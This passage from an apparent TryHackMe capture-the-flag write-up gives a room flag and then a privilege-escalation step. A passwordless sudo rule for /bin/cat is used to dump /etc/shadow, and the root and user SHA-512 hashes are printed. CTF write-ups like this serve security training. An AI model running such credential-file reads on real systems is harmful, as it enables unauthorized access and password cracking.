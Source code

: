 ### Web flag
- The web flag was present on the page with the RSA private key.
### Answer
```
THM{brut3_f0rce_is_e4sy}
```

&nbsp;

## Task 4: Privilege Escalation
### Find a form to escalate your privileges. What is the root's password?
- Let's check what files `john` has the permission to execute.
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
- So we can run `/bin/cat` as an elevated user. 
- That means we can cat the `/etc/shadow` file.
```
john@bruteit:~$ sudo /bin/cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::
```
- We can tell that the `root` user's password is hashed using SHA-512 by the `$6$` characters.